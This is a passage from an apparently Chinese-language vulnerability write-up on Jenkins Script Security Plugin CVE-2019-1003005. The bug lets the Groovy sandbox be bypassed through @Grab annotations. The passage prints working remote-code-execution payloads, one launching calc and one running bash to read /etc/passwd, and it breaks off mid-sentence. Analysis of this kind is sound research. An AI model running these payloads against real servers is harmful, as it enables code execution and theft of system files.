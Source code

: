 ![1568605407294](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568605407294.png)



### SECURITY-1292

- 公告：https://jenkins.io/security/advisory/2019-01-28/#SECURITY-1292
- CVE：CVE-2019-1003005
- 插件：Script Security Plugin
- 版本：<=1.50

> Script Security sandbox protection could be circumvented during the script compilation phase by applying AST transforming annotations such as `@Grab` to source code elements.
>
> This affected an HTTP endpoint used to validate a user-submitted Groovy script that was not covered in the [2019-01-08 fix for SECURITY-1266](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266) and allowed users with Overall/Read permission to bypass the sandbox protection and execute arbitrary code on the Jenkins master.

`org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript#DescriptorImpl`利用链中的`doCheckScript`方法没有及时更新修复后的安全方法，依然存在风险，绕过点就是利用`@Grab`

`Grape` 是一个内嵌在 Groovy 中的 JAR 依赖项管理器，方便在classpath中快速添加 Maven 库依赖项，更易于编写脚本。最简单的用法是在脚本上添加注释（annotation），如下所示：

```java
@Grab(group='org.springframework', module='spring-orm', version='3.2.5.RELEASE')
import org.springframework.jdbc.core.JdbcTemplate
```

程序会自动去仓库下载对应的库，并保存在`~/.groovy/grapes/`目录

#### 分析

现在只需找到一个可以利用的类便可完成代码执行，这里列举两个：

`org.zeroturnaround.zt-exec`类，本地测试

```java
@Grab('org.zeroturnaround:zt-exec:1.11')
import org.zeroturnaround.exec.ProcessExecutor
new ProcessExecutor().command("calc").execute()
```

![1570780489674](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1570780489674.png)

除此之外，[adamyordan/cve-2019-1003000-jenkins-rce-poc](adamyordan/cve-2019-1003000-jenkins-rce-poc)利用了`org.buildobjects.process.ProcBuilder`类，效果是一样的

```java
import org.buildobjects.process.ProcBuilder
@Grab('org.buildobjects:jproc:2.2.3')
class Dummy{ }
print new ProcBuilder("/bin/bash").withArgs("-c","cat /etc/passwd").run().getOutputString()
```

但是，在Jenkins中执行并不能正常触发，报错如下：
